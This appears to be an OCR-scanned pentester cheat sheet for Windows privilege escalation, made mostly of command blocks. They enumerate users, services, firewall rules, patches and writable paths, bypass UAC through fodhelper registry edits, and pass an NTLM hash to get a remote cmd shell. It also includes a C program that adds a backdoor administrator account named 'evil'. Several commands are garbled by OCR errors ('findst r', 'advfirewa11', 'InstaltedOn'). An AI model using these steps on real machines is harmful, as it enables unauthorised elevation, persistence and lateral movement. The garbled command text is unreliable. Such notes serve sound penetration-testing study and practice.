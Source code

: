 ## Windows privilege Escalation

* Automated enumeration scripts

```
// https://github.com/pentestmonkey/windows-privesc-check
windows-privesc-check2.exe --dump -a -o report.txt
```

* Enumerating Users

```
whoami
whoami /all		#groups, permissions, etc
whoami /groups	# check cmd integrity level
net user
net user /domain			# AD users
net user <username>
net user jeff_admin /domain # AD user jeff_admin
echo %username%
net accounts		# domain's account policy
```

* Get System information

```
systeminfo | findst r /B /C: "OS Name" /C:"OS Version" /C:"System Type"
hostname
```

* Enumerating Running Processes and Services

```
Get-WmiObject win32_service | Select-Object Name, State, PathName | Where-Object {$_.State -like 'Running'}

tasklist / SVC
```

* Enumerating Networking Information

```
ipconfig /all
route print
netstat -ano
```

* Enumerating Firewall Status and Rules

```
netsh advfirewa11 show currentprofile
netsh advfirewall firewall show rule name=all
```

* Enumerating Scheduled Tasks

```
schtasks /query /fo LIST /v
```

* Enumerating Installed Applications and Patch Levels

```
// Does not list applications that do not use the Windows Installer
wmic product get name, version, vendor

wmic qfe get Caption, Description, HotFixID, InstaltedOn
```

* Enumerating Readable/Writable Files and Directories

```
accesschk.exe -uws "Everyone" "C:\Program Files"

// powershell cmdlet
Get-ChildItem "C:\Program Files" -Recurse | Get-ACL | ?{$_.AccessToString -match "Everyone\sAllow\s\sModify"}
```

* Enumerating Unmounted Disks

```
mountvol
```

* Enumerating Device Drivers

```
// list drivers, use powershell to filter output
driverquery.exe / v / fo csv | Convertfrom-CSV | Select-Object 'Display Name', ' Start Mode', 'Path'

// Get driver version and other details 
Get-WmiObject Win32_PnPSignedDriver | Select-Object DeviceName, DriverVersion, Manufacturer | Where-Object {$_.DeviceName -like "*VMware*"}
```

* Enumerating Binaries That AutoElevate

```
reg query HKEY_CURRENT_USER\Software\Policies\Microsoft\Windows\Installer

reg query HKEY_LOCAL_MACHINE\Software\Policies\Microsoft\Windows\Installer

// If any of this key is enabled (set to 1), we could craft an MSI file and run it to elevate our privileges.
```

* Elevating Medium to High integrity shell using fodhelper.exe (admin required)

```
REG ADD HKCU\Software\Classes\ms-settings\Shell\Open\command
REG ADD HKCU\Software\Classes\ms-settings\Shell\Open\command /v DelegateExecute /t REG_SZ
REG ADD HKCU\Software\Classes\ms-settings\Shell\Open\command /d "cmd.exe" /f
C:\Windows\System32\fodhelper.exe
```

* Checking file permissions

```
icacls "C:\Program Files\Serviio\bin\ServiioService.exe"
```

* C program to create admin user - compile with gcc to create exeutable

```
#include <stdlib.h>
int main ()
{
int i;
i = system ( "net user evil Ev!lpass /add") ;
i = system ("net localgroup administrators evil /add");
return 0;
}
```

* Pass-The-Hash attacks(requires SMB + NTLM)

Existing tools - PsExec from Metasploit, Passing-the-hash toolkit, and Impacket

```
// https://github.com/byt3bl33d3r/pth-toolkit
kali@kali:~$ pth-winexe -U offsec%aad3b435b51484eeaad3b435b51484ee:2892d26cdf84d7a78e2eb3b9f05c425e //10.11.0.22 cmd
```